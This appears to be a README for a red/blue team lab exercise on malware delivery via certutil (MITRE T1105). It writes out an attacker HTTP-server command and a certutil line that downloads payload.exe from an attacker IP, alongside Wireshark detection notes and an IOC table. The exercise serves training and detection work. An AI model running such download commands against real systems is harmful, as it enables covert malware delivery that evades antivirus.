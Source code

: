# 🛡️ Scenario 1 – Malware Delivery (Ingress Tool Transfer)

## 🎯 Objective
Simulate the delivery of a malicious payload (`payload.exe`) from an attacker machine to a victim endpoint over HTTP, and validate the Blue Team’s detection and monitoring capabilities using network traffic analysis and endpoint telemetry.

---

## 🔴 Red Team Activity

### Steps
1. **Host Malicious Payload on Attacker Machine**:
   - The attacker hosted `payload.exe` on a Kali machine using a simple HTTP server:
     ```bash
     python3 -m http.server 8080
     ```
2. **Download Payload on Victim Machine**:
   - The victim machine downloaded the payload using the built-in Windows utility `certutil`:
     ```bash
     certutil -urlcache -split -f http://192.168.2.129:8080/payload.exe payload.exe
     ```

### Explanation
- The attacker exploited `certutil.exe`, a legitimate Windows tool, to fetch the payload. This is a classic **Living off the Land Binary (LOLBin)** technique, which avoids detection by leveraging native system binaries rather than external download tools that might be blocked or flagged by security software.

### Evidence (Text-Only, No Images)
- **Victim CLI**: Command output showing successful execution of `certutil` to download `payload.exe`.
- **Attacker Terminal**: Kali terminal log indicating a GET request from the victim (optional, based on HTTP server output).

---

## 🔵 Blue Team Detection

### Network Traffic Analysis (Wireshark Capture)
- **Filter Applied**: `http.request`
- **Observed Traffic**:
  ```
  GET /payload.exe HTTP/1.1
  Host: 192.168.2.129:8080
  ```
- **Analysis**: This confirms the victim machine initiated an HTTP request to the attacker’s web server (port 8080) and successfully retrieved `payload.exe`.
- **Evidence (Text-Only, No Images)**: Wireshark log snippet showing the GET request details.

---

## 🧩 MITRE ATT&CK Mapping

- **Technique**: T1105 – Ingress Tool Transfer
  - **Description**: Adversaries transfer tools or payloads from an external system into a compromised environment.
- **Technique Context**:
  - Delivery method: HTTP over port 8080.
  - Tool used: Native Windows binary `certutil.exe` to minimize detection by traditional antivirus solutions.

---

## 📌 Indicators of Compromise (IOCs)

| Type         | Value                     | Notes                                              |
|--------------|---------------------------|----------------------------------------------------|
| Attacker IP  | 192.168.2.129            | Kali machine hosting the malicious payload         |
| Victim IP    | [Insert your victim IP here] | Windows endpoint fetching the payload             |
| File Name    | payload.exe              | Dropped onto the victim system                    |
| File Hash    | [Insert SHA256 hash here] | Generate with: `Get-FileHash payload.exe -Algorithm SHA256` |

---

## ✅ Summary
In this scenario, the attacker successfully delivered `payload.exe` to the victim machine by exploiting the legitimate `certutil.exe` utility. The Blue Team validated the transfer through:
- Network traffic analysis in Wireshark, identifying the HTTP GET request.
- Endpoint telemetry via Sysmon, logging the file creation event.

This exercise highlights the risk of abusing common Windows binaries for initial malware delivery. Defenders must monitor both network traffic (e.g., unusual HTTP requests) and endpoint activity (e.g., Sysmon file creation) to detect such techniques effectively. Regular updates to detection rules and IOC tracking are critical to mitigate these threats.
